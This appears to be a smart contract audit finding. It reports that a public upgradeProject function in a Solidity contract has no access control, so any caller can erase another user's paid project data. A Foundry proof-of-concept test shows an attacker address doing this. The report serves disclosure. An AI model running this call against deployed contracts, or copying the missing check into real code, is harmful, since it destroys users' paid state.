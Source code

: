 Best Plastic Yak

High

# Attacker can delete user projects information

### Summary

Anyone can call the [BlueprintCore::upgradeProject](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198) function. This means that information will be lost impacting functionality.

### Root Cause

In [BlueprintCore::198](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198) The function to reset 3 of the projects values is a public function with no authorization checks.

### Internal Pre-conditions

1. Users have a project with a `requestProposalID`, `requestDeploymentID` or `proposedSolverAddr` set.  

### External Pre-conditions

None

### Attack Path

1. Malicious user calls the [BlueprintCore::upgradeProject](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198) function passing the desired `projectId`

### Impact

The users sees their projects `requestProposalID`, `requestDeploymentID` and `proposedSolverAddr` deleted. If to generate these values the user payed, for example through the function `createAgentWithToken` this means there is a loss funds for that particular user as they now have to pay to create an agent again.

### PoC

```solidity
function test_resetInfo() public {
        address attacker = makeAddr("attacker");
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2981);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        mockToken.mint(address(this), validTokenAmount);

        // Verify the mint
        uint256 balance = mockToken.balanceOf(address(this));
        assertEq(balance, validTokenAmount, "sender does not have the correct token balance");

        // check LogApproveEvent
        vm.expectEmit(true, true, false, true);
        emit MockERC20.LogApproval(address(this), address(blueprint), validTokenAmount);

        // Approve the blueprint contract to spend tokens directly from the test contract
        mockToken.approve(address(blueprint), validTokenAmount);

        // check allowance after approve
        uint256 allowance = mockToken.allowance(address(this), address(blueprint));
        assertEq(allowance, validTokenAmount, "sender does not have the correct token allowance");

        // Create agent
        blueprint.createAgentWithToken(projectId, base64Proposal, workerAddress, serverURL, address(mockToken));
        balance = mockToken.balanceOf(address(this));
        assertEq(balance, 0);
        
        // Attacker deletes values 
        vm.prank(attacker);
        blueprint.upgradeProject(projectId);
    }

```

### Mitigation

_No response_